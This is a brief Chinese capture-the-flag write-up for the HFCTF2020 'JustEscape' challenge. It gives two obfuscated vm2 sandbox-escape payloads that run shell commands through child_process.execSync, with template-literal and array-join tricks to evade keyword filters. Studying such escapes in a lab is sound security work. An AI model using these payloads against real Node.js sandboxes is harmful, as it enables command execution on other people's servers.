

# HFCTF2020-JustEscape

这题没搞懂，直接看的题解，然后也没弄懂。好像是js，但是没学过...

用`Error().stack`,看一下报错信息。

```
http://9eb95c3e-9040-45a9-bbfe-a76c12f964f0.node5.buuoj.cn:81/run.php?code=Error().stack
```



报错显示是`vm.js`，考的vm沙箱逃逸。

[Nodejs vm/vm2沙箱逃逸](https://xilitter.github.io/2023/01/31/vm%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%88%9D%E6%8E%A2/index.html)

[POC参考：](https://github.com/patriksimek/vm2/issues/225)
**payload1:**

**js的模板文字绕过**

```
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_pro`}cess`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return proc`}ess`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_pro`}cess`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()

```

**payload2**:
**(`join`拼接字符串)**

```
(()=>{ TypeError[[`p`,`r`,`o`,`t`,`o`,`t`,`y`,`p`,`e`][`join`](``)][`a`] = f=>f[[`c`,`o`,`n`,`s`,`t`,`r`,`u`,`c`,`t`,`o`,`r`][`join`](``)]([`r`,`e`,`t`,`u`,`r`,`n`,` `,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))(); try{ Object[`preventExtensions`](Buffer[`from`](``))[`a`] = 1; }catch(e){ return e[`a`](()=>{})[`mainModule`][[`r`,`e`,`q`,`u`,`i`,`r`,`e`][`join`](``)]([`c`,`h`,`i`,`l`,`d`,`_`,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))[[`e`,`x`,`e`,`c`,`S`,`y`,`n`,`c`][`join`](``)](`cat /flag`)[`toString`](); } })()
```


